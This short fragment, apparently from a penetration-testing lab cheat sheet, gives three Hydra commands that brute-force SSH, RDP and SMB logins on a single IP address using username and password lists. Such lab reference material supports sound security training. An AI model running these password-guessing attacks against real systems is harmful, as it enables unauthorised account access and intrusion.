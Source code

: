 #### SSH
```shell
hydra -L user.list -P password.list ssh://10.129.42.197
```
#### RDP
```shell
hydra -L user.list -P password.list rdp://10.129.42.197
```
#### SMB
```shell
hydra -L user.list -P password.list smb://10.129.42.197
```
